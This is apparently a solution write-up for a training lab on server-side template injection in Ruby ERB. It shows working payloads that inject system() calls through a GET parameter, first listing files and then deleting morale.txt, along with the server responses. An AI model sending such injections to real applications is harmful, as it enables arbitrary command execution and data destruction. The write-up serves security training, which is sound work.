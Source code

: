 # Lab: Basic server-side template injection

This lab is vulnerable to server-side template injection due to the unsafe
construction of an ERB template.

To solve the lab, review the ERB documentation to find out how to execute
arbitrary code, then delete the morale.txt file from Carlos's home directory.


https://docs.ruby-lang.org/en/2.3.0/ERB.html
```Ruby
<%= Ruby expression -- replace with result %>
```

### Execute system commands via Ruby
https://www.rubyguides.com/2018/12/ruby-system/
```Ruby
system("ls")
```
```Ruby
<%= system("ls") %>
```

```HTTP
Request:
GET /?message=<%= system("ls") %>
```

Response:
morale.txt
true

```Ruby
<%= system("rm morale.txt") %>
```

```HTTP
Request:
GET /?message=<%= system("rm morale.txt") %>
```

Response:
Lab solved



